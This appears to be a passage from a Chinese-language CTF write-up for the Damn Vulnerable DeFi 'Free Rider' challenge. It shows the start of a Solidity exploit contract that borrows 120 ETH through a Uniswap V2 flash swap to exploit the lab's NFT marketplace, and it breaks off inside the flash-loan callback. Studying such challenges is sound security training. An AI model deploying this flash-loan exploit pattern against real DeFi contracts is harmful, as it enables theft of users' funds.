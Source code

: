 以此写出攻击合约：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./FreeRiderBuyer.sol";
import "./FreeRiderNFTMarketplace.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "../DamnValuableNFT.sol";
import "hardhat/console.sol";

interface IUniswapV2Callee {
    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external;
}

interface IWETH {
    function transfer(address recipient, uint256 amount) external returns (bool);
    function deposit() external payable;
    function withdraw(uint256 amount) external;
}

interface IUniswapV2Pair {
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
}

interface IFreeRiderNFTMarketplace {
    function offerMany(uint256[] calldata tokenIds, uint256[] calldata prices) external;
    function buyMany(uint256[] calldata tokenIds) external payable;
    function token() external returns (IERC721);
}

contract FreeRiderExploit is IUniswapV2Callee, IERC721Receiver {

address public attcker;
address immutable buyer;
IFreeRiderNFTMarketplace immutable market;
IUniswapV2Pair immutable uniswapPair;
IWETH immutable weth;
IERC721 immutable nft;

    constructor(address _Buyer, IFreeRiderNFTMarketplace _market, IWETH _token, IUniswapV2Pair _uniswapPair){
        market = _market;
        buyer = _Buyer;
        attcker = msg.sender;
        uniswapPair = _uniswapPair;
        nft = _market.token();
        weth = _token;
    }

    function attack() public {
        uniswapPair.swap(
            120 ether,         //根据分析，我们一共需要从闪电贷借120ETH
            0 ,                //我们不关心这个参数，因为我们只用借ETH
            address(this),     //借款发送到此合约
            hex"00"            //为了使data不为空（我们不关心此参数）
        );           
    }
    
    //闪电贷回调函数
    function uniswapV2Call(address, uint, uint, bytes calldata) external override {
        console.log("success in line", 62);
        //通过闪电借的120 ether先提款到此合约
        weth.withdraw(120 ether);
```